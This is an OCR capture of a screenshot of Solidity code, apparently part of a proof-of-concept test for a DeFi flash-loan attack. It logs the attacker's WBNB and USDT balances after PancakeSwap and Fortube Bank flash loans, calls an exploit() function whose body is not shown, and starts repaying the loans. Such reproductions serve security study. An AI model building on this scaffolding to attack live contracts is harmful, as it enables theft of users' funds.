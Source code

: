 │         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After all PCS flashloans, attacker WBNB balance:",                                                                                                                                                                                       │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After Fortube Bank flashloan, USDT balance of attacker:",                                                                                                                                                                                │
│             usdtBalance,                                                                                                                                                                                                                              │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         // *Actual exploit*                                                                                                                                                                                                                           │
│         exploit();                                                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                       │
│         // Start repaying flashloans                                                                                                                                                                                                                  │
│         emit log_string("Repaying flashloans...");                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                       │
│         // Repay fortube flashloan                                                                                                                                                                                                                    │
│         uint256 usdtOwed = amount + fee;                                                                                                                                                                                                              │
│         IERC20(USDT).transfer(FortubeBank.controller(), usdtOwed);                                                                                                                                                                                    │